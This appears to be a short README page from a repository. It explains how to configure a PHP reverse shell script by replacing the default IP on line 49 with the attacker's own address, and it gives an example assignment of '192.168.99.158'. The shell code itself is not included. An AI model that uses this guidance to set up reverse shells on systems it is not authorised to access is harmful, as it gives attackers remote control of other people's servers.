 # IP & Port 

In (php-reverse-shell.php), You only need to change two things. It was IP and Port.

# Line-49
In line (49), you need to change the ip From "127.0.0.1" to "Your Ip".
For example, If your ip is "192.168.99.158". Set it (192.168.99.158) to ip. 

# Example
Attacker-ip = 192.168.99.158

$ip = '192.168.99.158';
